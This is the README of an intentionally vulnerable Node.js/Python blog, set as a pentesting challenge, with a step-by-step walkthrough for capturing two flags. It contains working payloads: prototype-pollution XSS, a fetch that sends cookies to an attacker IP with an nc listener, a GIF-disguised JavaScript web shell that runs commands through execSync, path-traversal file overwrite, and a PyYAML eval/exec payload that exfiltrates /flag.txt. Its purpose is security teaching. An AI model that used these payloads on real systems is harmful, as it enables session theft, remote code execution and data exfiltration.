 # DISCLAIMER: This is a pentesting-challenge! Do not expose these containers to the public!

It is designed to showcase common javascript vulnerabilities. So be careful!

# My new BLOG 🎉

I decided to rewrite my blog using the cool new shiny web tech. After a friend
showed me that my old php code was vulnerable to some XSS and SQL injection, he
said that I would be better off using nodejs!

So here I am. Since I started the previous one, I learned a lot about how to
turn websites into SPAs, how to separate the client- and server-side and how to
use JWT to authenticate requests. This is going to be sooo much better, eh?

## Setup

If you want to run this challenge locally on your system, you can simply clone
this repository and run `docker compose up --build` inside this folder. This
should spawn a couple of containers with one of them listening on port 8080,
which you can open in a browser to interact with the application.

Tokens and secrets found in .env files do not count as part of the challenge,
but the rest of the source code is.

## Hints

<details>
  <summary>List of Flags</summary>
  There are two flags in this challenge, located at the root of the node and the python container in a file called `flag.txt`.
</details>
<details>
  <summary>List of vulnerabilities</summary>

This app contains the following vulnerabilities (that I know of 😬)

proposed way:

1. client-side prototype pollution
2. leading to reflected XSS
3. cookie stealing
4. broken file upload filters
5. arbitrary file overwrite
6. leading to RCE
7. yaml-injection
8. leading to RCE in another container

alternatively:

1. JWT-token forgery

</details>

## Walkthrough

<details>
  <summary>How to 1</summary>

The application state is stored using query parameters. The `web/html/state.js`
contains the code how the query/search-string is converted into
javascript-object and the other way around. This allows use to set arbitrary
values on nested structures like `a[b][c]=1`.

Introducing `__proto__`! The `__proto__` property in javascript is part of the
javascript inheritance model. It contains a reference to an object that this
object should inherit properties from. The vulnerability is that setting a value
like `__proto__[a]=1` causes the property `a` to exist on all javascript objects
that share the same prototype. In this case it is simply every object that
exists.

You can try this in the javascript console on the page! Frist, set the URLs
query string to `?__proto__[a]=1`. Then create a new object and read it's `a`
property: `const x = {}; console.log(x.a)`!

</details>

<details>
  <summary>How to 2</summary>

Now that we can create _phantom_ properties on all objects, we can try to find
code where a certain property value gives us some sort of code execution. We
cannot simply overwrite function calls, as our way to pollute the prototype only
allows string.

Blog posts are rendered using `iframes`. The post itself contains HTML code that
is loaded from a specific URL, included in the posts `src` property. If the post
we are trying to access does not exist, the SPA still tries to load the iframe.
Using prototype pollution we can now set a "default" `src` value to load if the
post does not exist.

Our URL can now contain any common XSS payload like
`__proto__[src]=javascript:alert('XSS')`.

</details>

<details>
  <summary>How to 3</summary>

Now that we have reflected XSS we can abuse the complaint functionality to have
a moderator check out our newly found XSS skills!

Moderators are usually signed in when clicking on links and we are able to run
code on their machine, grab the cookies and send them over to a machine we
control!

The easiest way to send something from javascript to a given IP or URL is using
the `fetch`-API. `fetch` is a global function to invoke a web-request. In order
to give our target something to connect to, we need to provide a simple
tcp-Listener on our own machine. This can be done using the netcat utility on
most linux-based OS. Run `nc -l 8081` to start a listener or port 8081.

Say your local IP is `172.17.0.1` you would want the following javascript to run
on the target machine: `fetch('http://172.17.0.1:8081?'+document.cookie)`. This
would then be converted to the full URL query-payload:
`__proto__[src]=javascript:fetch('http://172.17.0.1:8081?'%2Bdocument.cookie)`

Once you opened this URL yourself you should already see the request logged in
your netcat window. So, time to rearm netcat and complain about this
_totally-innocent-looking_ url! If done correctly, you should see the the stolen
cookie in your netcat window.

Last but not least, you can open up your browsers debug console and enter the
stolen cookie as a cookie of your own.

</details>

<details>
  <summary>How to 4</summary>

> I'm in!

We finally have access to the media upload feature! Those are always great...
(to exploit, that is.)

We can upload actual images just fine, like png, jpg, and gif. Let's find a way
to trick the filter into accepting a file that we can make some use of.

The server is written in javascript, but javascript files ain't no image! Let's
fix that. Take an arbitrary .js file, prepend the code with `GIF89a = 0;` and
voila, you now have turned your code into a "valid" gif file (there are
exceptions to this though [search ECMAScript modules and strict mode])!

But trying to upload the file though the UI is still not working. If we go to
the browsers debug console and navigate to the network tab, we can inspect the
actual upload request the UI is making to the server. Looking closely at what
gets send, we can see a `content-type` header that is still showing
`application/javascript`! Let's fix that. First, right click the network request
in the list and select `copy -> as fetch`. Now, paste it back into the
javascript console below and adjust the header to show `image/gif`. Once you hit
enter, the request should go through and our file is now available in the
`/media` folder.

</details>

<details>
  <summary>How to 5</summary>

Now that we can upload javascript code, how can we make use of it? We need
another vulnerability! One to overwrite arbitrary files in the projects source
code, so we can implant our own version of the code into the application.

To do so, we make use of the fact, that the uploaded files name is url-decoded
prior to writing to the disk. This means that url-encoding our path allows us to
write content anywhere on the filesystem where the user has permission to write.

Furthermore we can actually take a look at the source code of the application
and create our malicious upload to replace an existing source-file, so it does
not harm the applications regular behavior.

We really only have **one try**, because once we overwrite a file in a bad way,
the application might get stuck in a **crash loop**.

Luckily there is a lost `test.js` file dangling in the projects src folder that
does not seem to do anything, but it is loaded into runtime through `index.js`.
Perfect for us to put our payload! Almost as if the author intended us to find
it...

Example RCE-Payload `../src/test.js`:

```js
GIF89a = 0;
const { complain } = require("./complain.js");
const { execSync } = require("child_process");

complain.get("/rce", (req, res) => {
  res.send(execSync(req.query.cmd).toString("utf-8"));
});
```

This payload hooks itself into the webserver through the complain module and
would allow us to to run `GET /api/rce?cmd=pwd` to return the output of any
shell command back to us.

But how do we get nodejs to actually include out file into the running
application?

</details>

<details>
  <summary>How to 6</summary>

Last but not least, we need to find a way for the nodejs runtime to actually
load our modified version of the files.

We can do so easily by making the server crash. Once it is down, the docker
engine will automatically restart the container with all the changes made to it
still in place.

There is one way to crash the server that is easy to trigger when uploading an
invalid file that does not result in a "mimetype" to be detected by the server.
In this case the server tries to read the type property anyway, resulting in a
crash.

Uploading a simple plain-text file should work fine for this purpose.

With everything in place, we should be able to read the contents of the
`/flag.txt` that is located inside the container and score our first flag!

</details>

<details>
  <summary>How to 7</summary>

To continue our journey through this stack, we now need to move laterally into
another container where the final flag can be found.

From the source-code we know that we have a python process, that repeatedly
accesses the database to plot a graph with the view_count that gets stored
alongside each post. This view_count is an integer, right? Perfect to store in a
yaml-array and plot on a graph.

But now that we have full access to the nodejs application, we can easily modify
the database-schema to contain any data that we might want to use to attack the
application reading it. In our case, we can use this to inject a malicious
yaml-payload. All we need to do is to modify the database-scheme to allow text
in the view_count column and inject our payload into one of the posts
view_count.

First

```SQL
ALTER TABLE blog.posts CHANGE view_count view_count TEXT NOT NULL;
```

and now to place our exploit

```SQL
UPDATE `blog`.`posts` SET `view_count` = '<our exploit code here>' WHERE (`id` = '3');
```

In order to not break the structure of the yaml-file that we are injecting to,
we need to make sure that the syntax remains correct. One example of an
injection that does not break the syntax would be

```SQL
UPDATE `blog`.`posts` SET `view_count` = 'test: "I am an object with a string property called test"' WHERE (`id` = '3');
```

</details>

<details>
  <summary>How to 8</summary>
  Next we need some payload that actually causes the python-code to leak the final flag. A basic example yaml-injection for python is this:

```yaml
test: !!python/object/apply:eval
  - print("Hi World!")
```

_note: This only works when using the unsafe_load function within pyyaml, which
is being used in our target application_

In order to actually leak the flag, we need to send it over the network. So the
payload we can use to do this looks like this:

```yaml
test: !!python/object/apply:eval
  - exec('from urllib import request; request.urlopen("http://172.17.0.1:8081?q="+open("/flag.txt").readline())')
```

Be careful when adding the payload to the database to actually keep the syntax
of the resulting yaml in-tact. The value of view_count is appended to the yaml
with the prefix `-` followed by `\n`. This means that when using multiple lines
in the payload, like we do above, you need to have 4 spaces ahead of the
`- exec` in the second line.

yay, second flag.

</details>
